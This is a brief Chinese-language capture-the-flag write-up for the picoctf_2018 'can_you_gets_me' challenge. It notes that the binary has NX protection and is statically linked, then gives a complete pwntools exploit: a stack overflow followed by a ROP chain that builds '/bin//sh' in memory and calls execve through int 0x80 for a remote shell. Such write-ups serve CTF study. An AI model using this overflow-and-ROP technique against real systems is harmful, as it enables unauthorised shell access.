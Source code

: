 # picoctf_2018_can_you_gets_me

这里我们查看一下这个程序我们查看一下保护

![image-20250418231330972](../images/image-20250418231330972.png)

这里我们看到了一个nx保护

![image-20250418231202543](..\images\image-20250418231202543.png)

并且得到了一个静态编译

![image-20250418231451145](../images/image-20250418231451145.png)

因此我们可以使用syschall的方法打

所以我们的exp

```py
from pwn import *
from struct import pack
io = remote("node5.buuoj.cn",27647)


def payload():
    offset = 0x18
    p = b'A' * (offset + 4)
    p += pack('<I', 0x0806f02a)  # pop edx ; ret
    p += pack('<I', 0x080ea060)  # @ .data
    p += pack('<I', 0x080b81c6)  # pop eax ; ret
    p += b'/bin'
    p += pack('<I', 0x080549db)  # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806f02a)  # pop edx ; ret
    p += pack('<I', 0x080ea064)  # @ .data + 4
    p += pack('<I', 0x080b81c6)  # pop eax ; ret
    p += b'//sh'
    p += pack('<I', 0x080549db)  # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806f02a)  # pop edx ; ret
    p += pack('<I', 0x080ea068)  # @ .data + 8
    p += pack('<I', 0x08049303)  # xor eax, eax ; ret
    p += pack('<I', 0x080549db)  # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080481c9)  # pop ebx ; ret
    p += pack('<I', 0x080ea060)  # @ .data
    p += pack('<I', 0x080de955)  # pop ecx ; ret
    p += pack('<I', 0x080ea068)  # @ .data + 8
    p += pack('<I', 0x0806f02a)  # pop edx ; ret
    p += pack('<I', 0x080ea068)  # @ .data + 8
    p += pack('<I', 0x08049303)  # xor eax, eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0806cc25)  # int 0x80
    return p


shell = payload()
io.sendline(shell)
io.interactive()
```

